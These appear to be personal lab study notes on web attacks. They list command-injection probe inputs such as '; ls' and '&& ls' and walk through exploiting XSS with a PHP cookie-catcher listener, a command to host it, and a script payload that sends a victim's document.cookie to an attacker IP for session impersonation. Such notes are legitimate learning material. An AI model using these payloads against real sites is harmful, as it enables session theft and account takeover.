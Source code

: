 # Web stuff Notes

So this is going to be about 3 stuff put together Command Injection, Cross-Site Scripting and SQL injection. 
Just grouping these because man it was kinda short.

## Command Injection

Identify the pages associated with the following functions:

- Feedback Submission
- Feedback Review
- Directory Services
- System Connectivity Checked
- Website Search Function
- Website Administrative Access Page

simple system input for a connectivity test page

- test with '-h' to see if you get help page info
    - '127.0.0.1 -h' or just '-h'
- try with '; ls'
    - '; ls'
- other things to try
    - '|| ls' or '&& ls'

## XSS

### Reflected XSS
if input is reflected on the browser very easy to test with this:
- <hr>

make sure to view source page where your input is relected to identify injection points and possible filtering

### Stored XSS

if you have an injection that stays static on a page you can inject here and it will be 'stored'

### Exploiting XSS

steps we will do
- open a cookie catcher web process to catch the connection from the victim user
- craft malicious URL
- submit the malicious URL to victim

listner code:
```
<html>
<?php
file_put_contents("cookies.log", json_encode(array(
    "GET"=>$_GET,
    "POST"=>$_POST,
    "headers"=>getallheaders()))."\n",
    FILE_APPEND);
?>
</html>
```

host it
- php -S 0.0.0.0:2222

The malicious payload to inject
```
<script>document.location='http://10.10.75.1:2222/?'+document.cookie;</script>
```

now just watch the cookie catcher and if the xss works it will trigger, using these cookies one can impersonate those users
